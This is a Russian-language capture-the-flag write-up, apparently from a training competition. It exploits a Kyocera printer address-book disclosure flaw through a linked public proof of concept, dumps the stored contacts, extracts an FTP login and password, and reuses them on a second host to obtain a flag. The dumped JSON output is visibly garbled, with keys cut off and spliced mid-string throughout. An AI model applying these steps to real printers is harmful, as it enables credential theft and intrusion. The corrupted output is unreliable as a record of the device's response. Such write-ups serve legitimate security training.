

# Принтер 1

Находим уязвимость для получения данных пользователей. Используем [этот PoC](https://github.com/ac3lives/kyocera-cve-2022-1026/). Получаем следующие данные:
```json
{'@xml:space': 'preserve', 'kmaddrbook:get_personal_address_listResponse': {'kmaddrbook:result': 'ALL_GET_COMPLETE', 'kmaddrbook:personal_address': [{'kmaddrbook:name_information': {'kmaddrbook:name': 'Данииa': 'Даниил Савин', 'kmaddrbook:id': '1'}, 'kmaddrbook:email_information': {'kmaddrbook:address': None}, 'kmaddrbook:ftp_information': {'kmaddrbook:server_name': None, 'kmaddrbook:port_number': '21'}, 'kmaddddrbook:server_name': None, 'kmaddrbook:port_number': '44'}, 'kmaddrbook:fax_information': {'kmaddrbook:fax_number': None, 'kmaddrbook:connection_begining_speed': '33600', 'kmaddrbook:ecm': 'ON', 'kmaddrbookok:code_send_setting': 'OFF', 'kmaddrbook:code_box_number': '0', 'kmaddrbook:code_box_setting': 'OFF'}}, {'kmaddrbook:name_information': {'kmaddrbook:name': 'Немихаил Непетрачков', 'kmaddrbook:furigana': 'Неook:id': '2'}, 'kmaddrbook:email_information': {'kmaddrbook:address': None}, 'kmaddrbook:ftp_information': {'kmaddrbook:server_name': None, 'kmaddrbook:port_number': '21'}, 'kmaddrbook:smb_information': {'km'kmaddrbook:port_number': '445'}, 'kmaddrbook:fax_information': {'kmaddrbook:fax_number': None, 'kmaddrbook:connection_begining_speed': '33600', 'kmaddrbook:ecm': 'ON', 'kmaddrbook:code_key_id': '0', 'kmaddr', 'kmaddrbook:code_box_number': '0', 'kmaddrbook:code_box_setting': 'OFF'}}, {'kmaddrbook:name_information': {'kmaddrbook:name': 'Константин Костеневский', 'kmaddrbook:furigana': 'Константин Костеневский', rbook:email_information': {'kmaddrbook:address': None}, 'kmaddrbook:ftp_information': {'kmaddrbook:server_name': None, 'kmaddrbook:port_number': '21'}, 'kmaddrbook:smb_information': {'kmaddrbook:server_name'er': '44'}, 'kmaddrbook:fax_information': {'kmaddrbook:fax_number': None, 'kmaddrbook:connection_begining_speed': '33600', 'kmaddrbook:ecm': 'ON', 'kmaddrbook:code_key_id': '0', 'kmaddrbook:code_send_settingx_number': '0', 'kmaddrbook:code_box_setting': 'OFF'}}, {'kmaddrbook:name_information': {'kmaddrbook:name': 'Валентина Споржедичко', 'kmaddrbook:furigana': 'Валентина Споржедичко', 'kmaddrbook:id': '4'}, 'km{'kmaddrbook:address': None}, 'kmaddrbook:ftp_information': {'kmaddrbook:server_name': None, 'kmaddrbook:port_number': '21', 'kmaddrbook:login_name': 'ftpuser', 'kmaddrbook:login_password': 'r34llyh4rdp455'}': {'kmaddrbook:server_name': None, 'kmaddrbook:port_number': '445'}, 'kmaddrbook:fax_information': {'kmaddrbook:fax_number': None, 'kmaddrbook:connection_begining_speed': '33600', 'kmaddrbook:ecm': 'ON', 'k'kmaddrbook:code_send_setting': 'OFF', 'kmaddrbook:code_box_number': '0', 'kmaddrbook:code_box_setting': 'OFF'}}, {'kmaddrbook:name_information': {'kmaddrbook:name': 'Вера Джейсонина', 'kmaddrbook:furigana':ok:id': '5'}, 'kmaddrbook:email_information': {'kmaddrbook:address': None}, 'kmaddrbook:ftp_information': {'kmaddrbook:server_name': None, 'kmaddrbook:port_number': '21'}, 'kmaddrbook:smb_information': {'kmakmaddrbook:port_number': '445'}, 'kmaddrbook:fax_information': {'kmaddrbook:fax_number': None, 'kmaddrbook:connection_begining_speed': '33600', 'kmaddrbook:ecm': 'ON', 'kmaddrbook:code_key_id': '0', 'kmaddrb, 'kmaddrbook:code_box_number': '0', 'kmaddrbook:code_box_setting': 'OFF'}}, {'kmaddrbook:name_information': {'kmaddrbook:name': 'Александр Ивлев', 'kmaddrbook:furigana': 'Александр Ивлев', 'kmaddrbook:id': mation': {'kmaddrbook:address': None}, 'kmaddrbook:ftp_information': {'kmaddrbook:server_name': None, 'kmaddrbook:port_number': '21'}, 'kmaddrbook:smb_information': {'kmaddrbook:server_name': None, 'kmaddrbodrbook:fax_information': {'kmaddrbook:fax_number': None, 'kmaddrbook:connection_begining_speed': '33600', 'kmaddrbook:ecm': 'ON', 'kmaddrbook:code_key_id': '0', 'kmaddrbook:code_send_setting': 'OFF', 'kmaddrkmaddrbook:code_box_setting': 'OFF'}}, {'kmaddrbook:name_information': {'kmaddrbook:name': 'Александр Анчишкин', 'kmaddrbook:furigana': 'Александр Анчишкин', 'kmaddrbook:id': '7'}, 'kmaddrbook:email_informatNone}, 'kmaddrbook:ftp_information': {'kmaddrbook:server_name': None, 'kmaddrbook:port_number': '21'}, 'kmaddrbook:smb_information': {'kmaddrbook:server_name': None, 'kmaddrbook:port_number': '445'}, 'kmaddrdrbook:fax_number': None, 'kmaddrbook:connection_begining_speed': '33600', 'kmaddrbook:ecm': 'ON', 'kmaddrbook:code_key_id': '0', 'kmaddrbook:code_send_setting': 'OFF', 'kmaddrbook:code_box_number': '0', 'kmOFF'}}, {'kmaddrbook:name_information': {'kmaddrbook:name': 'tset', 'kmaddrbook:furigana': 'tset', 'kmaddrbook:id': '8'}, 'kmaddrbook:email_information': {'kmaddrbook:address': None}, 'kmaddrbook:ftp_informame': None, 'kmaddrbook:port_number': '21'}, 'kmaddrbook:smb_information': {'kmaddrbook:server_name': None, 'kmaddrbook:port_number': '445'}, 'kmaddrbook:fax_information': {'kmaddrbook:fax_number': None, 'kmapeed': '33600', 'kmaddrbook:ecm': 'ON', 'kmaddrbook:code_key_id': '0', 'kmaddrbook:code_send_setting': 'OFF', 'kmaddrbook:code_box_number': '0', 'kmaddrbook:code_box_setting': 'OFF'}}]}}
```

Видим логин и пароль от FTP: `ftpuser:r34llyh4rdp455`

Заходим под этими данными на второй адрес и получаем конфиг redis и флаг:


**Флаг:** `nto{f7p_4cc355_fr0m_ky0c3r4}`